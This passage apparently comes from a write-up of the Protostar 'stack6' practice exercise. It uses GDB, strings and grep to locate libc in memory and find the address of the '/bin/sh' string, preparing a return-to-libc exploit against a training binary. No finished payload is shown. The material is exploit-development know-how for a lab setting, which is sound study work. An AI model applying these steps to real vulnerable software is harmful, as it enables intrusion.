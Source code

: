 `info proc map` shows us the stuff that the program's process is using and this includes libc.
In this case, libc is hidden in `/lib/libc-2.11.2.so`, or `0xb7e97000`.

Now let's see what is at `0xb7e97000`

```
(gdb) x/s 0xb7e97000
0xb7e97000:      "\177ELF\001\001\001"
(gdb)
```

We got the string at that address, but it isn't `/bin/sh`. That is because the memory address points
to the beginning, which is something else (this is my guess, I could not find any info). Now let's
exit GDB and use `strings` and `grep` to find the offset of `/bin/sh`.

```bash
(gdb) quit
A debugging session is active.

        Inferior 1 [process 3211] will be killed.

Quit anyway? (y or n) y
user@protostar:/opt/protostar/bin$ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
 11f3bf /bin/sh
user@protostar:/opt/protostar/bin$ 
```

Ok, so the address to `/bin/sh` is `0xb7e97000` + `0x11f3bf`. Let's check that with GDB again

```bash
user@protostar:/opt/protostar/bin$ gdb stack6
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) break *getpath+117
Breakpoint 1 at 0x80484f9: file stack6/stack6.c, line 23.
(gdb) r
Starting program: /opt/protostar/bin/stack6 
input path please: HSDFKJGHSJKFGHFJKLHGSKFJGHSJKFHSKFGHSJKDFGHKJSDFGHKSFGHKFGHSKLDFGHSDKLFJH
got path HSDFKJGHSJKFGHFJKLHGSKFJGHSJKFHSKFGHSJKDFGHKJSDFGHKSFGHKFGHSKLDFKLFJH

Breakpoint 1, 0x080484f9 in getpath () at stack6/stack6.c:23
23      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) x/s 0xb7e97000 + 0x11f3bf
0xb7fb63bf:      "/bin/sh"
(gdb) 
```
